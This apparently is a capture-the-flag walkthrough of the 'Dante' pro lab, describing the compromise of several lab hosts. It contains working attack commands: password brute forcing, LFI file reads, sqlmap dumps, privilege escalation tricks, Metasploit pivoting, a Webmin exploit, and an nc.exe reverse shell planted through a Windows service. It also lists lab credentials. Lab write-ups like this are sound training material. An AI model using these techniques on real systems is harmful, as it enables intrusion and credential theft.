

# Dante

## DANTE-WEB-NIX01

Ping sweep to find the machines

```
nmap -sn -T4 10.10.110.0/24
```

Full scan on the found host **10.10.110.100**

```
nmap -T4 -sC -sV -p- --min-rate=1000 10.10.110.100
```

<figure><figcaption></figcaption></figure>

Login on ftp as anonymous to found **todo.txt** inside

<figure><figcaption></figcaption></figure>

Inside [**http://10.10.110.100:65000/robots.txt**](http://10.10.110.100:65000/robots.txt) there is another flag and a wordpress link

<figure><figcaption></figcaption></figure>

With wpscan we can see that there are some vulns

```
wpscan --url 'http://10.10.110.100:65000/wordpress/'
```

<figure><figcaption></figcaption></figure>

And the users

<figure><figcaption></figcaption></figure>

Now we can try to bruteforce the weak james password


```
wpscan --url 'http://10.10.110.100:65000/wordpress/' --passwords /usr/share/wordlists/rockyou.txt
```


The creds are James/Toyota. Now modify the theme to get a web shell and then a revshell.

Now we can escalate to James by using the same password from wp (Toyota)

```
su James
```

<figure><figcaption></figcaption></figure>

Find has SUID on it

```
./find . -exec /bin/sh -p \; -quit
```

<figure><figcaption></figcaption></figure>

Grab the shh root key

## Pivoting

(Simple with ssh -d 9050 )&#x20;

Setup metasploit to pivot throught the network

Upgrade the root ssh to meterpreter session and launch the following commands

```
use multi/manage/autoroute
set session 3
set subnet 172.16.1.0/24
```

<figure><figcaption></figcaption></figure>

Then We will use **auxiliary/server/socks\_proxy** to create a proxy server which will allow us to proxy all our traffic from tools like nmap, crackmapexec etc within the meterpreter session.

```
use auxiliary/server/socks_proxy
set SRVPORT 9050
```

and then modify the file `/etc/proxychains4.conf`


To find other ips in the subnet use the module&#x20;

```
use post/multi/gather/ping_sweep
```

<figure><figcaption></figcaption></figure>

## DANTE-NIX02

To run nmap throught proxychains

```
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

Now open firefox with proxychains

<figure><figcaption></figcaption></figure>

As expected there is an LFI in the `nav.php?page=` endpoint

<figure><figcaption></figcaption></figure>

On the SMB

<figure><figcaption></figcaption></figure>

### Margaret

Bruteforce the password with the user found with the LFI


```
proxychains crackmapexec smb 172.16.1.10 -u user.txt -p /usr/share/wordlists/rockyou.txt
```


<figure><figcaption></figcaption></figure>

and get the file inside

<figure><figcaption></figcaption></figure>

Let's check if wordress is indeed there (Spoiler: Yes) and try to get the wp-config file


```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```


<figure><figcaption></figcaption></figure>

Now we have ssh access on 172.16.1.10 with a restricted shellls. To escape and get a full shell open vim and launch the following commands

```
:set shell=/bin/bash
:shell
```

On the frank home we find a slack report and some interesting password

* STARS5678FORTUNE401
* 69F15HST1CX
* TractorHeadtorchDeskmat

Now i can su to Franck

### Frank

In the home of frank there is apache\_restart.py.

<figure><figcaption></figcaption></figure>

We can hijack the library urllib by creating it inside the frank's home and let it create a new SUID sh

<figure><figcaption></figcaption></figure>

## DANTE-NIX03&#x20;

scan the ports

```
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

On the webpage there is a directory listing

<figure><figcaption></figcaption></figure>

Inside the smbclient we found a file named "Monitor", a wireshark log.

Inside it can be found the credentials for webmin = admin:Password6543

using the script we can get a reverse shell

[https://raw.githubusercontent.com/lucas31oct/Webmin-1.910-Exploit-Script/refs/heads/stable/webmin\_exploit.py](https://raw.githubusercontent.com/lucas31oct/Webmin-1.910-Exploit-Script/refs/heads/stable/webmin\_exploit.py)


```
proxychains python3 webmin_exploit.py --rhost 172.16.1.17 --rport 10000 --lhost 172.16.1.100 --lport 4444 -u admin -p Password6543
```


already root

## NT DANTE-WS01

scan the ports

```
proxychains nmap 172.16.1.13 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

On the web server there is xampp. By enumerating the directories we can find /discuss

<figure><figcaption></figcaption></figure>

If you register can upload a php reverse shell and reach it throught the /ups/webshell.php

<figure><figcaption></figcaption></figure>

Upload nc64.exe, invoke a reverse shell and use powerup.ps1 to find a misconfiguration

<figure><figcaption></figcaption></figure>

Druva [https://www.exploit-db.com/exploits/49211](https://www.exploit-db.com/exploits/49211)

## DANTE-NIX04

scan the ports

```
proxychains nmap 172.16.1.12 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

Found /blog

SQL injection [https://www.exploit-db.com/exploits/48615](https://www.exploit-db.com/exploits/48615)

```
sqlmap -u "http://172.16.1.12/blog/category.php?id=1*" --batch -D flag --dump
```

<figure><figcaption></figcaption></figure>

with


```
sqlmap -u "http://172.16.1.12/blog/category.php?id=1*" --batch -D blog_admin_db -T membership_users --dump
```


we can find some credentials

| Username | Password        |
| -------- | --------------- |
| ben      | Welcometomyblog |
| egre55   | egre55          |

we can access ftp with the ben credential and also ssh

By doing `sudo -l` we can see that we can run /bin/bash as all users except root

<figure><figcaption></figcaption></figure>

but the version is vulnerable to this exploit  [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

```py
sudo -u#-1 /bin/bash
```

so now we are root

## DANTE-WS03

scan the ports

```
proxychains nmap 172.16.1.102 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

On the website we can found OMRS that is vulnerable [https://www.exploit-db.com/exploits/49557](https://www.exploit-db.com/exploits/49557)

```
python3 omrs.py -u http://172.16.1.102:80/ -c 'whoami'
```

<figure><figcaption></figcaption></figure>

Open a reverse shell and take the flag

Use metasploit `getsystem` command to take the admin account

## DANTE-DC01

scan the ports

```
proxychains nmap 172.16.1.20 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

Vulnerable to eternalblue

<figure><figcaption></figcaption></figure>

I also found a file with this credentials

<table><thead><tr><th width="232">Usernames</th><th width="180">Passwords</th></tr></thead><tbody><tr><td>smoggat</td><td>Summer2019</td></tr><tr><td>tmodle</td><td>P45678!</td></tr><tr><td>ccraven</td><td>Password1</td></tr><tr><td>kploty</td><td>Teacher65</td></tr><tr><td>jbercov</td><td>4567Holiday1</td></tr><tr><td>whaguey</td><td>acb123</td></tr><tr><td>dcamtan</td><td>WorldOfWarcraft67</td></tr><tr><td>tspadly</td><td>RopeBlackfieldForwardslash</td></tr><tr><td>ematlis</td><td>JuneJuly1TY</td></tr><tr><td>fglacdon</td><td>FinalFantasy7</td></tr><tr><td>tmentrso</td><td>65RedBalloons</td></tr><tr><td>dharding</td><td>WestminsterOrange5</td></tr><tr><td>smillar</td><td>MarksAndSparks91</td></tr><tr><td>bjohnston</td><td>Bullingdon1</td></tr><tr><td>iahmed</td><td>Sheffield23</td></tr><tr><td>plongbottom</td><td>PowerfixSaturdayClub777</td></tr><tr><td>jcarrot</td><td>Tanenbaum0001</td></tr><tr><td>lgesley</td><td>SuperStrongCantForget123456789</td></tr><tr><td>asmith</td><td>Princess1</td></tr><tr><td>mrb3n</td><td>S3kur1ty2020!</td></tr></tbody></table>

## DANTE-WS02

scan the ports

```
proxychains nmap 172.16.1.101 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

Try to bruteforce ftp

```
hydra -L user.txt -P pass.txt ftp://172.16.1.101
```

This identified valid credentials. We can login to FTP using dharding : WestminsterOrange5 .

We found a file inside called "Remote login.txt"

<figure><figcaption></figcaption></figure>

So we need to try different password for smb and try to see

```
crackmapexec winrm 172.16.1.101 -u 'dharding' -p words.txt
```

<figure><figcaption></figcaption></figure>

Once logging on we found out that there is IObit vulnerable (9.5) [https://www.exploit-db.com/exploits/48543](https://www.exploit-db.com/exploits/48543)

```
sc.exe qc IObitUnSvr
```

<figure><figcaption></figcaption></figure>

With winpeas we can also see something interesting

<figure><figcaption></figcaption></figure>

So exploit it


```
sc.exe config IObitUnSvr binPath="cmd.exe /c C:/Users/dharding/Documents/nc.exe -e cmd.exe 171.16.1.100 4444"
```


```
sc.exe stop IObitUnSvr
sc.exe start IObitUnSvr
```

## 172.16.1.5

scan the ports

```
proxychains nmap 172.16.1.5 -sT -sV -Pn -T5
```

<figure><figcaption></figcaption></figure>

Flag inside ftp with anonymous login

## 172.16.2.5

Apparently there is another subnet, without any sense

Add the autoroute in metasploit

```
run autoroute -s 172.16.2.0/24
```

and run nmap against the new host with `scanner/portscan/tcp`

<figure><figcaption></figcaption></figure>

